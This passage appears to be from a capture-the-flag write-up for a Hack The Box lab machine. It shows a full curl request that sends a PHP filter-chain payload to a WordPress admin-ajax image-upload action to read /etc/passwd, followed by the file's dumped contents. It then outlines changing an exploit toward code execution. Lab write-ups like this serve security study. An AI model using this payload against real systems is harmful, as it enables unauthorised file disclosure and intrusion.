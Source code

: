 ```bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&url=php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd&id=1&accepted_files=image/gif'
{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-9.png","attachment_id":164}%

curl http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-9.png
GIF89aroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologi%
```

Having the file read working we need to adjust the exploit to be able to execute

- Adding the php filter and upload file logic
![DESC](file-20250504200353769.png)

- Running the exploit we see that some bytes are being cutout (probably because of the GIF89a header)
![DESC](file-20250504200252732.png)

- To avoid that we comment out every part of the code where it is passing the test to check if vulnerable
![DESC](file-20250504202505516.png)
